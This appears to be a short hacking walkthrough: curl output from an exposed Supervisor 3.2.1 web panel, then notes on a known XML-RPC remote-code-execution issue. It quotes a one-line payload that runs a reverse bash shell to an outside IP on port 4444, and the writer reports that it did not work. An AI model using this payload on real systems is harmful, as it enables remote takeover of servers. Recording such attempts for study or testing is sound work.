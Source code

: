 ```

  <div>
    <div class="hidden">#</div>

    <form action="index.html" method="post">
      <ul class="clr" id="buttons">
        <li id="refresh"><a href="index.html?action=refresh">&nbsp;</a></li>
        <li id="restart_all"><a href="index.html?action=restartall">&nbsp;</a></li>
        <li id="stop_all"><a href="index.html?action=stopall">&nbsp;</a></li>
      </ul>

      No programs to manage</form>

  </div>

  <div class="push">
  </div>
</div>

<div class="clr" id="footer">
  <div class="left">
    <a href="http://supervisord.org">Supervisor</a> <span>3.2.1</span>
  </div>
  <div class="right">
    &copy; 2006-<span>2018</span> <strong><a href="http://agendaless.com/">Agendaless Consulting and Contributors</a></strong>
  </div>
</div>
</body>
* Connection #0 to host 54.153.0.160 left intact
</html>%
```


ok it seems to be running some version of medusa on there.

https://github.com/Supervisor/supervisor/tree/master/supervisor/medusa

and its a hella old version it starts to seem more likely to be exploitable.

almost immediately see remote code execution
http://vulapps.evalbug.com/s_supervisor/


tl;dr;
https://github.com/Supervisor/supervisor/issues/964

```python
supervisor.supervisord.options.execve /usr/bin/python python -c import os; os.system("/bin/bash -i >& /dev/tcp/142.93.194.254/4444 0>&1 &")
```

the exploit didnt work, but it did give me an idea, i just need to figure out how supervisor does versioning so i can find a copy of the vulnerable source then i can compare the source for xmlrpc between the vulnerable version and the version on this website and maybe just maybe ill have a clue on how to exploit it.
